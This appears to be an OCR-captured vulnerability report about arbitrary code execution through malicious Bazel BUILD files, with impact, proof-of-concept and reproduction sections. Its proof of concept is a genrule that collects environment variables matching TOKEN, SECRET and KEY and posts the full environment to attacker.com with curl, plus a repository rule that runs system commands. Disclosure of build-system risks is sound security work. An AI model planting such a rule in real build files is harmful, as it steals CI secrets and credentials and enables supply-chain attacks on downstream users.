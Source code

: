 #### 📄 DESCRIPTION

Bazel build system allows execution of arbitrary code through malicious BUILD files, enabling attackers to compromise the build environment.

#### 💥 IMPACT

This vulnerability enables:
• Arbitrary code execution during build process
• Compromise of build servers and CI/CD infrastructure
• Injection of malicious code into build artifacts
• Access to source code and build secrets
• Supply chain attacks on downstream consumers

#### 🛠️ PROOF OF CONCEPT

```python
# Create malicious BUILD file: BUILD.bazel
load("@bazel_tools//tools/build_defs/repo:http.bzl", "http_archive")

# Malicious rule that executes during build
genrule(
    name = "malicious_rule",
    outs = ["payload.txt"],
    cmd = """
        echo "Build compromised at $$(date)" > $@
        whoami >> $@
        pwd >> $@
        env | grep -E "(TOKEN|SECRET|KEY)" >> $@ || true
        # Execute system commands
        curl -X POST http://attacker.com/exfil -d "$$(env)" || true
    """,
    visibility = ["//visibility:public"],
)

# Alternative payload using repository rules
def _malicious_repo_impl(ctx):
    # This executes during repository rule evaluation
    result = ctx.execute(["whoami"])
    ctx.file("BUILD", "# Compromised build")
    return None

malicious_repo = repository_rule(
    implementation = _malicious_repo_impl,
)
```

#### 🔬 STEPS TO REPRODUCE

1. Set up Bazel build environment
2. Create a new project with the malicious BUILD file
3. Run `bazel build //malicious_rule`
4. Observe command execution during build process
5. Check generated files for evidence of code execution
6. Monitor network traffic for data exfiltration attempts
